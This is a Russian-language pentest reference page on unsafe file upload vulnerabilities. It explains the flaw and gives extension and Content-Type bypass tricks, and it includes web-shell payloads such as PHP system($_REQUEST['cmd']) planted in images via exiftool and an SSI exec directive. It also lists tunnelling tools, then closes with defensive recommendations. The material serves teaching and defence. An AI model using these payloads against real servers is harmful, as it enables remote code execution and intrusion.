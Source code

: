 # **Unsafe File Upload.Небезопасная загрузка файлов.**

## **Описание уязвимости**
Unsafe File Upload(Небезопасная загрузка файлов) - это уязвимость веб-преложений позволяющая злоумышленнику загружать вредоносные файлы на веб-сервер.
Данная уязвимость позволяет злоумышленнику загружать файлы на веб-сервер и при отсутствие проверок и фильтрации загружаемой информации злоумышленник может
внедрить в файл небезопасный код.

В результате такой атаки золумышленник может:
+ Загрузить web-shell, получив удалённое выполнение команд на веб-сервере
+ Загрузить reverse-shell, получив удалённое обратное подключение на свою машину
+ Возможность перезаписи и удаления файлов
+ XSS
+ Размещение фишинговой страницы на веб-сервере
+ Расскрытие конфиденциальной информации
+ Отказ в обслуживание
+ `Если вашего случая тут нет, дополните своим кейсом этот шаблон`

## **Теория**
Узвимость небезопасной загрузки файлов возникает при наличие функционала загрузки файлов на севрер и отсутствие проверок загружаемого контента.
При наличии возможно загрузки файлов на веб-сервер, злоумышленник может добавить вредоносный код в файл и отправить его на веб-сервер, получив в ответ ссылку на файл, в зависимости от того, как сервер её обработает.
Подробнее с Unsafe File Upload можно ознакомиться здесь:
```
https://book.hacktricks.xyz/pentesting-web/file-upload
https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
```
Рассмотрим пример уязвимого кода на php, в котором не производится проверка роли пользователя от которого загружается файл:
```
      <?php
        $target_dir = "uploads/";
        $target_file = $target_dir.basename($_FILES["fileToUpload"]["name"]);
        $imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));
```
Для исправления данной уязвимости следует добавить код, проверяющий роль пользователя перед загрузкой файла:
```
        if (!current_user_can('upload_files'))  //проверка прав пользователя на загрузку файлов
        die(__('You do not have permission to upload files.')); 
```


### **Обход фильтрации загружаемого контента**
+ Загрузка файлов с именем, которое уже имеется на сервере.(можно получить сообщение об ошибке(может привести к перезаписи чувствительных файлов));
+ Загрузка фалов, когда папка с таким названием уже существует;
+ Загрузка файлов с длинным названием;
+ Загрузка одно файла несколько раз, в один промежуток времени;
+ Использование двойных расширений или малоизвестных расширений

Обходится с помощью использования двойных расширений (`shell.php.png`) или малоизвестный расширений (`.php5`, `.phtml`, `.shtml`, `.htaccess`). Кроме того, возможна инъекция нулевого байта (`shell.php%00.jpg`) или регистрозависимость при проверке (`.PHp3', '.aSp`).
+ Санитайзеры

Оставляет большую степень свободы. Например, если санитайзер удаляет вхождения подстрок типа `.php`, то использования имени файла вида `shell.p.phphp` позволяет после загрузки получить файл с именем `shell.php`. 
+ Валидация Content-Type;

```
POST / HTTP/1.1
Host: vuln.ru
Content-Length: 200
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="info.php"
Content-Type: text/php
 <?php phpinfo(); ?>
------WebKitFormBoundary--
```
строчка `Content-Type: text/php` может быть заменена на строчку `Content-Type: image/png`. 
+ `Server Side Includes`

Язык для динамической «сборки» веб-страниц на сервере из отдельных составных частей и выдачи клиенту полученного HTML-документа. Имеет расширения `.shtml`, `.stm` или `.shtm`. Например, при загрузке и вызове `file.shtml`, содержащего код 
```<!-- #exec cmd="ls" -->```
атакующему будет выведен список файлов данной директории. 
+ Загрузка файлов используя метод `PUT`

Если метод `PUT` настроен не корректно, можно использовать его для загрузки файлов на сервер:
```
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```
+ Добавление в начало файла байты реального изображения

```
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```
или добавить полезную нагрузку в изображение:
```
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```
### **Способы проброса шелла**
| Утилита  |     Способ         | Ссылка|
| ---------|:------------------:| -----:|
| ssh      | Более подробно по ссылке   | [SSH](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#ssh) |
| sshutlle | `sshuttle -vr username@ip 0/0 --ssh-cmd 'ssh'` |   [sshuttle](https://sshuttle.readthedocs.io/en/stable/usage.html) |
| reGeorg  | Можно загрузить файл на веб-сервер с тунелем и установить соединение через него(если нет возможности открыть порт на машине)|    [reGeorg](https://github.com/sensepost/reGeorg) |
| chisel   | Установка соединения через сервер и клиент. Ссылки на инструкцию и релиз на гитхабе(чтоб не устанавливать на машину) | [Интсрукция](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#chisel) [Release](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding#chisel)       |


[Дополнительная информация по тунелям и пробросу портов](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding)

[Reverse Shell Generator](https://www.revshells.com/)

### **Рекомендации**
+Проверка расширений загружаемых файлов
+Проверка содержимого загружаемых файлов
+Создания списка допустимых расширений, допустимых  к загрузке
+Генерировать имя файла и расширение при записи на сервер
+Запрет на выполнение файлов в дерикториях доступных пользователю
+Сравнивать последовательность байтов файла(magic bytes) с ожидаемым расширением файла, например файлы `JPEG` всегда содержат в начале `FF D8 FF`

### **Проверка расширений загружаемых файлов и проверка содержимого загружаемых файлов**
Проверять название и рисширение загружаемого файла на наличие спец. символов, дополнительных расширний в файле и тд.
### **Создания списка допустимых расширений, допустимых  к загрузке**
Создание "BlackList" и "WhiteList" расширений для загрузки файлов
BlackList - список расширений недоступных для загрузки
WhiteList - список расширений, файлы с которыми допущены для загрузки
### **Генерировать имя файла и расширение при записи на сервер**
Лучше всего генерировать случайное имя, которое невозможно угадать, например использовать UUID в качестве имени файла.
### **Запрет на выполнение файлов в дерикториях доступных пользователю**
Загружать файлы на веб сервер за пределы веб-каталога, это гарантирует, что веб файлы не будут доступны напрямую, через веб-сервер.
### **Сравнивать последовательность байтов файла с ожидаемым расширением файла**
Производить сравнение получаемого расширения файла с его стандартными байтами, которы епринадлежать данному расширению.
```https://www.netspi.com/blog/technical/web-application-penetration-testing/magic-bytes-identifying-common-file-formats-at-a-glance/```
### **Общая рекомендация**
Убедитесь, что пользователь не имеет контроля над именем файла и расширением. Лучше всего генерировать случайное имя, которое невозможно угадать, например, используя UUID в качестве имени файла. Это предотвращает перезапись существующих файлов, загрузку веб-оболочек, прямые ссылки на файлы и уязвимости обхода пути.
Рекомендуется хранить загруженные файлы за пределами корневого веб-каталога, в идеале на отдельном разделе или в общей папке. Это гарантирует, что загруженные файлы не могут быть напрямую доступны через веб-сервер, это предотвращает загрузку исполняемых скриптов (т.е. веб-шеллов), и злоумышленники не могут вызвать состояние отказа в обслуживании веб-сервера, заполнив его системный диск. Кроме того, загруженные файлы не должны иметь разрешения на выполнение (т.е. устанавливаться на уровне файловой системы или включать директивы веб-сервера).
Ограничения ресурсов должны быть настроены для всего раздела хранилища, а также максимальный размер файла и общий размер загрузки одним пользователем.
Если существуют ограничения по типам файлов, проверьте файловую сигнатуру, а не полагайтесь на расширение или MIME-тип. Все проверки должны выполняться на стороне сервера, так как меры на стороне клиента можно легко обойти. В зависимости от формата файла должны выполняться дополнительные проверки достоверности (например, формата файла).
